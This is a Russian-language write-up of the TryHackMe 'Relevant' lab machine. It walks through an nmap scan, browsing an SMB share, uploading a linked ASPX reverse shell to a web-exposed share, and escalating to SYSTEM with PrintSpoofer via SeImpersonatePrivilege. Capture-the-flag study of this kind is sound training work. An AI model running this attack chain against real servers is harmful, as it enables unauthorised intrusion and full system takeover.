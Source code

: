 # Relevant

:white_check_mark:  [**Samba directory browsing**](#samba)

:white_check_mark: [**SeImpersonatePrivilege exploit**](#SeImpersonate)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV -p- relevant.thm
```

```
PORT      STATE SERVICE       VERSION                                                                                                                     
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                    
|_http-server-header: Microsoft-IIS/10.0                                                                                                                  
|_http-title: IIS Windows Server                                                                                                                             
| http-methods:                                                                                                                                              
|_  Potentially risky methods: TRACE                                                                                                                      
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                       
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                               
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-02-23T14:44:13+00:00; +2s from scanner time.
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2022-02-22T14:23:03
|_Not valid after:  2022-08-24T14:23:03
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-02-23T14:43:33+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Главная страница **relevant.thm**:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/1.png)

<a name="samba"></a>

Посмотри что находится на **samba**:
```
smbclient -L relevant.thm
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/2.png)

Находим директорию **nt4wrksv**, посмотрим, что в ней.
```
smbclient \\\\relevant.thm\\nt4wrksv
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/3.png)

Находим файл с паролями, скачаем его:
```
get passwords.txt
```

Декодируем и получаем данные пользователей, которые увы, никуда нельзя подставить, т.к. это rabbit hole.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/4.png)

Просканировав url через **gobuster** находим директорию **nt4wrksv**. В эту директорию можно загрузить свой **shell** через **samba**. Покопавшись в интернете находим [shell](https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/5.png)

Запускаем слушатель и открываем shell через url.
```
http://relevant.thm/nt4wrksv/shell.aspx
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/6.png)

<a name="SeImpersonate"></a>

Подключившись к машине, посмотрим права командой:
```
whoami /priv
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/7.png)

Мы можем видеть SeImpersonate privileges, которые могут быть использованы для повышения привилегий. Находим [эксплоит](https://github.com/dievus/printspoofer)

Закидываем эксплоит на **samba**, он будет находиться в директории **C:\inetpub\wwwroot\nt4wrksv**.

Запускаем эксплоит командой:
```
PrintSpoofer -i -c cmd
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Relevant/6.png)

Получаем nt authority\system
